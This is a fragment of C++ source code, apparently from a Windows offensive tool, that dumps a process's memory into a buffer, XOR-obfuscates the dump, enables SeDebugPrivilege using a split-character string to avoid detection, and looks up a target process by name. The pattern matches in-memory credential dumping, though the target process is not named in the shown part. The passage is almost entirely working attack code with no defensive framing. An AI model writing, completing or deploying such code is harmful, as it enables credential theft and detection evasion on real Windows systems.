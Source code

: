 ```cpp
		CallbackOutput->Status = S_OK;
		break;
	case IoFinishCallback:
		CallbackOutput->Status = S_OK;
		printf("[+] Copied %i bytes to memory buffer\n", dumpSize);
		break;
	}
	return TRUE;
}

// Simple xor routine on memory buffer
void XOR(char* data, int data_len, char* key, int key_len)
{
	int j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1)
			j = 0;
		data[i] = data[i] ^ key[j];
		j++;
	}
}

// Enable SeDebugPrivilige if not enabled already
BOOL SetDebugPrivilege() {
	HANDLE hToken = NULL;
	TOKEN_PRIVILEGES TokenPrivileges = { 0 };

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("[-] Could not get current process token with TOKEN_ADJUST_PRIVILEGES\n");
		return FALSE;
	}

	TokenPrivileges.PrivilegeCount = 1;
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	char sPriv[] = { 'S','e','D','e','b','u','g','P','r','i','v','i','l','e','g','e',0 };
	if (!LookupPrivilegeValueA(NULL, (LPCSTR)sPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		printf("[-] No SeDebugPrivs. Make sure you are an admin\n");
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
		CloseHandle(hToken);
		printf("[-] Could not adjust to SeDebugPrivs\n");
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}

// Find PID of a process by name
int FindPID(const char* procname)
{
	int pid = 0;
	PROCESSENTRY32 proc = {};
	proc.dwSize = sizeof(PROCESSENTRY32);

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	bool bProc = Process32First(snapshot, &proc);
```